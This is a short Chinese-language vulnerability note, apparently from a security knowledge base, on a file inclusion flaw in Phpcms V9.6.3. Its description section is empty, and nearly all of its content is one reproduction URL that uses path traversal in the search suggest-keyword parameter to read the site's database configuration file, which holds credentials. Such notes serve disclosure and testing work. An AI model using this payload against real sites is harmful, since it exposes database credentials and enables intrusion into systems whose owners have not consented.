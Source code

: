 Phpcms V9.6.3 文件包含漏洞
==========================

一、漏洞简介
------------

二、漏洞影响
------------

Phpcms V9.6.3

三、复现过程
------------

`http://www.0-sec.org/m=search&a=public_get_suggest_keyword&q=../../phpsso_server/caches/configs/database.php `
